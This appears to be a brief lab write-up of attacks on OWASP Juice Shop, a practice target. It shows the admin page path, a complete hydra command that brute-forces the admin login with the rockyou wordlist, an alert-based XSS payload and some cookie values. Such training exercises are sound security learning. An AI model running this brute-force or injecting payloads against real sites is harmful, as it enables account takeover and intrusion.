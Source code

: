 1- The admin path (https://juiceshop.herokuapp.com/#/administration)

![1](https://github.com/user-attachments/assets/f91dcc9a-6021-4f38-900f-5622a5d09f1e)

2-(hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F


![2](https://github.com/user-attachments/assets/baf1599e-4d43-477c-b2bb-3893bbdaef7b)


3- this is the payload(<a href="#"  onclick="alert('XSS')">  OFFERS!!!  </a>)


![3](https://github.com/user-attachments/assets/c5f49dfa-79d9-4c9d-a00a-07bbb9048728)



4-The cookie: (language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss)



![Capture](https://github.com/user-attachments/assets/3989a1c8-5807-432e-91e3-98d2e09b8209)
